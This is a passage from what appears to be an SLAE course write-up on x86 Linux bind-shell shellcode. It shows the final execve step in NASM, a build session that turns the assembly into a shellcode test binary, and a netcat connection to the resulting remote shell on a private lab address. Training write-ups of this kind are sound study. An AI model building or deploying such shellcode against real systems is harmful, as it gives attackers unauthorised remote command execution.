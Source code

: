 ~~~ nasm
mov al, 11     ;execve syscall number, 0xb works also.
int 0x80       ;initiate
~~~

### Testing Execution
I built on top of <a href="https://twitter.com/SecurityTube">Vivek\'s</a> nasm linker and assembler shell script and added the opcode extractor and C compiler used in the SLAE course. You can find `super-compile.sh` <a href="https://github.com/skahwah/slae/blob/master/super-compile.sh">here</a>.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ls
bind.nasm  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ./super-compile.sh bind
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
[+] Creating Shellcode
[+] Compiling Shellcode
[+] Done!
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ls
bind  bind.nasm  bind.o  shellcode-bind  shellcode-bind.c  super-compile.sh
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ ./shellcode-bind
Shellcode Length: 103

~~~

#### Connecting
~~~ bash
19:04 skawa@skawa-mbp: ~ $ nc -nv 192.168.156.156 3879
found 0 associations
found 1 connections:
     1:	flags=82<CONNECTED,PREFERRED>
	outif vmnet8
	src 192.168.156.1 port 50727
	dst 192.168.156.156 port 3879
	rank info not available
	TCP aux info available

Connection to 192.168.156.156 port 3879 [tcp/*] succeeded!
uname -a
Linux ubuntu 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed Aug 14 15:31:16 UTC 2013 i686 i686 i386 GNU/Linux
whoami
skawa
^C
19:05 skawa@skawa-mbp: ~ $
~~~

#### Wrapper
For ease of configuration, I have put together a script that takes user supplied network information and converts it to hexadecimal. This can be found <a href="https://github.com/skahwah/slae/blob/master/assignment1/networkhex.rb">here</a>. The IP address is irrelevant for this particular case.
